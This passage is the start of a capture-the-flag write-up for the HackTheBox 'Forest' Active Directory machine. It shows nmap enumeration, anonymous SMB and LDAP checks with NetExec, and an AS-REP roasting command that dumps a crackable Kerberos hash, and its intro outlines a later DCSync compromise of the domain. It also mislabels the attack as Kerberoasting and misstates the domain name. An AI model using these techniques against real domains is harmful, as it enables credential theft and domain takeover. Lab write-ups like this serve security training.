 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

#### Nmap
```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 09:56:11Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO nmap.scanme.org: failed to receive data: connection closed
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
49664/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49996/tcp open  unknown
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `forest.htb` and The DC FQDN is `FOREST.forest.htb`.

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, like smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

#### NetExec
```bash
# nxc smb 10.129.62.73 -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```
nxc ldap 10.129.62.73 -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

